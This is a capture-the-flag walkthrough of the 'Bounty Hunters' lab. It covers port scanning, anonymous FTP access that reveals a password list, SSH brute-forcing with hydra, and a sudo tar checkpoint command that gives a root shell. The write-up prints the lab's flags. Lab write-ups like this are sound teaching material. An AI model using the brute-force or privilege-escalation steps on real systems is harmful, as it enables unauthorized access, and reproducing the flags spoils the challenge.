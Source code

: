 <head>
<h1><center>Bounty Hunters</center></h1>
</head>

## Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

The website contains a picture and some quotes by some poeple.
<img src="./images/web.png">

Directory Scan showed nothing useful..


```
/.hta                 (Status: 403) [Size: 277]

/.htpasswd            (Status: 403) [Size: 277]

/.htaccess            (Status: 403) [Size: 277]

/images               (Status: 301) [Size: 313] [--> http://10.10.11.233/images/]

/index.html           (Status: 200) [Size: 969]                                  

/server-status        (Status: 403) [Size: 277]
```


#### Port 21

Here we have anonymous login to FTP 
It has two files 
- locks.txt
- task.txt

locks.txt

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
 
task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

<br>

## SSH

I realized that `locks.txt` possibly contain the passwords of some user.
I quickly listed out all the possible usernames that I have seen on the website and of course from task.txt

users 

```
spike
jet
ed
faye
lin
```

I then used [hydra](https://www.kali.org/tools/hydra/) to bruteforce the combination.

```
username : lin
passwd   : RedDr4gonSynd1cat3
```

After logging in we find user flag in lin's home directory.

```
THM{CR1M3_SyNd1C4T3}
```

<br>

##  Privilege Escalation

Basic enumeration `sudo -l` showed that user lin can run `/bin/tar` as root..🤩

Heading over to GTFObins gave this command 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This gives us the root shell..💀

root flag

```
THM{80UN7Y_h4cK3r}
```
